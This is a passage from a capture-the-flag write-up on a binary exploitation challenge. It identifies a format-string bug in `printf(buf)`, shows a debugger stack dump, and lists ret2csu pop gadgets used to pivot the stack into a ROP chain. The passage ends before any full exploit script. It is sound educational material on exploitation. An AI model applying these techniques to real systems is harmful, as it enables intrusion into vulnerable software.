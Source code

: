 > I love these challenges where the exploit is longer than the source code.

`printf(buf);`, there's your vulnerability (BTW, go search for that in Github and see how many hits you get, you'd be surprised--and they're all not CTF challenges).

Normally I'd just change the GOT to have `puts` be `main` and get all the format-string exploits I want, however the `c0ffee` check prevents that naive exploit (`x = 0` resets `x`).

But all is not lost, we just need a pop sled.

```
0x00007fffffffe2c8│+0x0000: 0x0000000000401206  →  <main+112> mov eax, 0x0	 ← $rsp
0x00007fffffffe2d0│+0x0008: "AAAAAAAA"	 ← $r10
0x00007fffffffe2d8│+0x0010: "AAAAAAAA"
0x00007fffffffe2e0│+0x0018: "AAAAAAAA"
0x00007fffffffe2e8│+0x0020: "AAAAAAAA"
0x00007fffffffe2f0│+0x0028: "AAAAAAAA"
0x00007fffffffe2f8│+0x0030: "AAAAAAAA"
0x00007fffffffe300│+0x0038: "AAAAAAAA"
0x00007fffffffe308│+0x0040: "AAAAAAAA"
0x00007fffffffe310│+0x0048: "AAAAAAAA"
0x00007fffffffe318│+0x0050: "AAAAAAAA"
0x00007fffffffe320│+0x0058: "AAAAAAAA"
0x00007fffffffe328│+0x0060: "AAAAAAAA"
0x00007fffffffe330│+0x0068: "AAAAAAAA"
0x00007fffffffe338│+0x0070: "AAAAAAAA"
0x00007fffffffe340│+0x0078: "AAAAAAAA"
0x00007fffffffe348│+0x0080: "AAAAAAAA"
0x00007fffffffe350│+0x0088: "AAAAAAAA"
0x00007fffffffe358│+0x0090: "AAAAAAAA"
0x00007fffffffe360│+0x0098: "AAAAAAAA"
0x00007fffffffe368│+0x00a0: 0x0041414141414141 ("AAAAAAA"?)
0x00007fffffffe370│+0x00a8: 0x00007fffffffe470  →  0x0000000000000001
0x00007fffffffe378│+0x00b0: 0x29057470e9007000
0x00007fffffffe380│+0x00b8: 0x0000000000000000	 ← $rbp
0x00007fffffffe388│+0x00c0: 0x00007ffff7de70b3  →  <__libc_start_main+243> mov edi, eax
```

Above is what the stack looks like right after the call the `puts`.  The `call` pushes the return address to the stack that will be popped into RIP (a.k.a. `ret`) at the end of `puts`; but what if we moved the stack pointer down stack?  Then that `ret` would land in all them `A`'s, where instead of `A`'s we could write out a ROP chain.


### Let's go shopping

Any that have used _ret2csu_ will know exactly where to find a chain of pops to move the stack pointer down:

```
  401286:	48 83 c4 08          	add    rsp,0x8
  40128a:	5b                   	pop    rbx
  40128b:	5d                   	pop    rbp
  40128c:	41 5c                	pop    r12
  40128e:	41 5d                	pop    r13
  401290:	41 5e                	pop    r14
  401292:	41 5f                	pop    r15
  401294:	c3                   	ret
```
